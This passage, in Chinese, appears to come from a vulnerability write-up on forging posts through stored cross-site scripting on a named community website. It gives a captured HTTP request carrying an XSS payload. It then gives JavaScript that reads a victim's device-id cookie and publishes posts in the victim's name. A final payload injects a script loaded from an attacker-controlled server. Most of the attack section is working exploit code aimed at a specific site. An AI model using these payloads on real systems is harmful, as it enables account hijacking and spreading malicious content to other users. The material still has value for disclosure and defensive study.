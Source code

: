 #### 伪造发帖

1. 既然上一步攻击者能够代替受害者发送get请求来获取敏感信息，那么也可以发送post请求，达到伪造帖子和评论的目的。

    例如，Web用户对于如下发帖请求：

        POST /w/v1/community/post/new HTTP/2
        Host: sowellwell.com
        Cookie: xxx
        Content-Length: 232
        Identifier: jssdk_pbRJTpNazMAEeEM2
        Accept: application/json, text/plain, */*
        Content-Type: application/json;charset=UTF-8
        Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
        Sec-Ch-Ua-Mobile: ?0

        {"coid":"","coids":[],"title":"鹅鸭杀有组队的吗？","content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=alert(document.domain)></p></div>","device_name":"Web","watermark":true,"media":[],"publish_type":"post"}

    构造Web端利用脚本如下：

        // 构造POST发送请求
        const myPostFetch = async (url, token, payload) => {
            let data = await fetch(url, {
                method: 'POST',
                headers: {
                    'Identifier': token,
                },
                body: JSON.stringify(payload),
            })
            let res = await data.json();
            return res
        }
        // 代替受害者发送恶意帖子
        const startSendPost = async function() {
            const deviceid = getCookieValue('jssdk_deviceid')
            var payload =  {
                "coid":"",
                "coids":[],
                "title":"鹅鸭杀有组队的吗222223333？",
                "content":"<div id=\"mobile_article_theme_warm\" class=\"content_markdown_body\"><p>如题<img src=x onerror=alert(document.domain)></p></div>",
                "device_name":"Web",
                "watermark":true,
                "media":[],
                "publish_type":"post"
            }
            res = await myPostFetch('https://sowellwell.com/w/v1/community/post/new', deviceid, payload)
        }
        startSendPost()
2. 将上述利用脚本上传到攻击者控制的服务器，例如`https://my.domain.com/xss.js`，然后构造发帖payload如下：

        构造xss
        "var script=document.createElement('script');script.src='https://my.domain.com/xxs.js';document.getElementsByTagName('body')[0].appendChild(script);"

